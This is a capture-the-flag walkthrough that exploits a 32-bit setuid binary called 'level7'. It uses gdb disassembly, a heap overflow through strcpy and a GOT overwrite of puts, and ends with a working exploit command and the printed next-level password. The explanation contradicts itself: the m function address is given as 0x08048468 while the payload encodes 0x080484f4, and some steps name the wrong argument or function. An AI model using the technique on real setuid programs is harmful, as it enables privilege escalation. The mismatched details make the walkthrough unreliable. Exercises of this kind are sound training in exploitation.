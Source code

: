 Execute the *level7* binary:

```bash
./level7
./level7 arg_1
./level7 arg_1 arg_2
```

```
Segmentation fault (core dumped)
Segmentation fault (core dumped)
~~
```

> Note the *level7* binary need two arguments.

```gdb
disass main
```

> Use __set disassembly-flavor intel__ command to set the intel syntax.

```
Dump of assembler code for function main:
...
   0x08048531 <+16>:	call   0x80483f0 <malloc@plt>   ; alloc 8 bytes (first)
...
   0x0804854b <+42>:	call   0x80483f0 <malloc@plt>   ; alloc 8 bytes (second)
...
    0x08048556 <+53>:	mov    DWORD PTR [eax+0x4],edx  ; put the second allocation in the
...                                                     ; first one (in the second byte)
   0x08048560 <+63>:	call   0x80483f0 <malloc@plt>   ; alloc 8 bytes (third)
...
   0x0804857a <+89>:	call   0x80483f0 <malloc@plt>   ; alloc 8 bytes (fourth)
...
   0x08048585 <+100>:	mov    DWORD PTR [eax+0x4],edx  ; put the fourth allocation in the
...                                                     ; third one (in the second byte)
   0x080485a0 <+127>:	call   0x80483e0 <strcpy@plt>   ; copy argv[0] in the second allocation
...
   0x080485bd <+156>:	call   0x80483e0 <strcpy@plt>   ; copy argv[1] in the fourth allocation
...
   0x080485d3 <+178>:	call   0x8048430 <fopen@plt>    ; open the "/home/user/level8/.pass" file
...
   0x080485eb <+202>:	call   0x80483c0 <fgets@plt>    ; read the "/home/user/level8/.pass" opened file
...                                                     ; in the global variable "c"
   0x080485f7 <+214>:	call   0x8048400 <puts@plt>     ; write "~~" to stdout
...
   0x08048602 <+225>:	ret
End of assembler dump.
```

The interesting point is the that the *"/home/user/level8/.pass"* is readed for us, and put in the global variable "__c__".

The goal now is to print this global variable "__c__".

Check for other interisting functions, maybe for print the global variable "__c__":

```gdb
info functions
```

```
All defined functions:

...
0x08048468  m
0x0804847c  main
...
```

Check the *m* function:

```gdb
disass m
```

```
Dump of assembler code for function m:
...
   0x0804850b <+23>:	mov    DWORD PTR [esp+0x8],eax          ; put in the third  argument the time since the epoch
   0x0804850f <+27>:	mov    DWORD PTR [esp+0x4],0x8049960    ; put in the second argument the global variable m
   0x08048517 <+35>:	mov    DWORD PTR [esp],edx              ; put in the first  argument the string "%s - %d\n"
   0x0804851a <+38>:	call   0x80483b0 <printf@plt>           ; call printf with these arguments
...
End of assembler dump.
```

The *m* function at the address __0x08048468__ is exactly what we need to print the global variable "__c__".

Because the *fgets* function is not protected against overflows like seen in some previous levels, it's possible to overwrite the address called in the *puts@plt* function to the *m* function with a [got overwrite](https://infosecwriteups.com/got-overwrite-bb9ff5414628) function.

Find the *puts@plt* jump address:

```gdb
x/4i 0x8048400
```

```
0x8048400 <puts@plt>:	        jmp    DWORD PTR ds:0x8049928
0x8048406 <puts@plt+6>:	        push   0x28
0x804840b <puts@plt+11>:	    jmp    0x80483a0
0x8048410 <__gmon_start__@plt>:	jmp    DWORD PTR ds:0x804992c
```

The address of the first jump instruction of *puts@plt* to replace is __0x08049928__ (pointing to *puts@got.plt* by default).

> Note this address is stored in the *.got.plt* section (*info file*).

Check the four addresses returned by the calls of malloc:

```gdb
break *0x08048536
break *0x08048550
break *0x08048565
break *0x0804857f
run
info register eax
continue
info register eax
continue
info register eax
continue
info register eax
continue
```

```
eax            0x804a008        134520840
eax            0x804a018        134520856
eax            0x804a028        134520872
eax            0x804a038        134520888
```

The malloc calls return always the same addresses because the [ASLR](https://www.techtarget.com/searchsecurity/definition/address-space-layout-randomization-ASLR#:~:text=Address%20space%20layout%20randomization%20(ASLR)%20is%20a%20memory%2Dprotection,executables%20are%20loaded%20into%20memory.) is not active:

```bash
file ./level7
```

```
./level7: setuid setgid ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked (uses shared libs), for GNU/Linux 2.6.24, BuildID[sha1]=0xaee40d38d396a2ba3356a99de2d8afc4874319e2, not stripped
```

> *LSB executable* means the program [doesn't implement ASLR](https://unix.stackexchange.com/questions/89211/how-to-test-whether-a-linux-binary-was-compiled-as-position-independent-code).

The solution is to overflow the first *strcpy* with the first binary argument (argv\[1\]) to change the destination address of the second one, and put for it the *m* function address with the second binary argument (argv\[2\]).

Find the offset of the first strcpy call to reach the second one:


```gdb
break *0x080485bd
run AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPP ....
info register esp
x/x 0xbffff5d0
```

```
esp            0xbffff5d0	0xbffff5d0
0xbffff5d0:	0x46464646
```

> The destination string address argument from the esp (*0xbffff5d0*) register for the *strcpy* call is __0x46464646__, corresponding to the *"FFFF"* part of the first argument, meaning that the length of the offset is __20 bytes__.


- Put the __20__ padding bytes/characters in the first argument to reach the third allocated address containing the address where the value of the second argument will be copied.
- Add the address __0x08049928__ of the *@plt jump* which needs to be replaced (reversed = \x28\x99\x04\x08).
- Put the address __0x08048468__ of the of the *m* function to overwrite the default one (*puts@got.plt*) (reversed  = \xf4\x84\x04\x08).

```bash
./level7 `echo -e "....................\x28\x99\x04\x08"` `echo -e "\xf4\x84\x04\x08"`
```

```
5684af5cb4c8679958be4abe6373147ab52d95768e047820bf382e44fa8d8fb9
 - 1670594917
```

